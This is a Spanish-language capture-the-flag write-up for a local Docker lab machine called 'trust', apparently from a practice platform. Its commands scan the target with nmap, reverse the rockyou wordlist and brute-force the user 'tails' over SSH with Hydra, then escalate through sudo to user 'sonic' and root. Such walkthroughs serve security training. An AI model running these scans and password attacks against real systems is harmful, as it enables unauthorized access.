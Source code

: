 Desplegamos el contenedor:

```Bash
bash auto_deploy.sh trust.tar
```

![Pasted image 20250131113855](https://github.com/user-attachments/assets/4fe3d5f0-464b-4fdb-9b19-4d0f2b5507cc)

Escaneamos la IP:

```Bash
nmap -sV -sC -sS -T 5 -n -Pn -p- 172.17.0.2
```

![Pasted image 20250131113958](https://github.com/user-attachments/assets/4ece6712-2584-435b-9cef-e1e0ee99082a)

Nos metemos en la web:

![Pasted image 20250131114033](https://github.com/user-attachments/assets/93f8f640-8c53-4248-b61d-55606e2752b2)

Tenemos usuario tails.

Invertimos el diccionario ya que con **Hydra** tarda mucho:

```
tac /usr/share/wordlists/rockyou.txt >> invertido.txt
```

![Pasted image 20250131151102](https://github.com/user-attachments/assets/6bc9ecc5-06d9-4ffa-a454-1bb370a9c70f)

Quitamos los espacios en blanco:

```
sed -i 's/ //g' invertido.txt
```

![Pasted image 20250131153909](https://github.com/user-attachments/assets/dbf7552f-eee5-40d6-b68e-54915315d840)

Fuerza Bruta con **Hydra**:

```
hydra -l tails -P invertido.txt ssh://172.17.0.2
```

![Pasted image 20250131153842](https://github.com/user-attachments/assets/45d4ec3c-1498-4b29-a13d-2e09d42c8a92)

Nos conectamos con **SSH**:

```Bash
ssh tails@172.17.0.2
```

![Pasted image 20250131153704](https://github.com/user-attachments/assets/842703b1-f2e5-425a-8971-704541705cfb)

Elevamos privilegios:

```Bash
sudo -l
```

![Pasted image 20250131153722](https://github.com/user-attachments/assets/84dc0568-de16-41c8-a26e-5ab99d510fd9)

```
sudo -u sonic /bin/bash
```

![Pasted image 20250131154316](https://github.com/user-attachments/assets/768340fc-93e5-4d63-b657-0d617fbf12f5)

```Bash
sudo -l
```

![Pasted image 20250131154330](https://github.com/user-attachments/assets/556c3982-535f-47eb-8eaf-576c24c84660)

```Bash
sudo su
```

![Pasted image 20250131154531](https://github.com/user-attachments/assets/d26f225a-918c-4d82-be5d-f6002e9c7119)

o también

```Bash
sudo -i
```

![Pasted image 20250131154413](https://github.com/user-attachments/assets/7f8a82d4-ac20-4ab8-adc8-b8a515623106)

```Bash
whoami
```

![Pasted image 20250131154558](https://github.com/user-attachments/assets/4dfda7ed-920f-4e35-82f4-f94d854f8066)
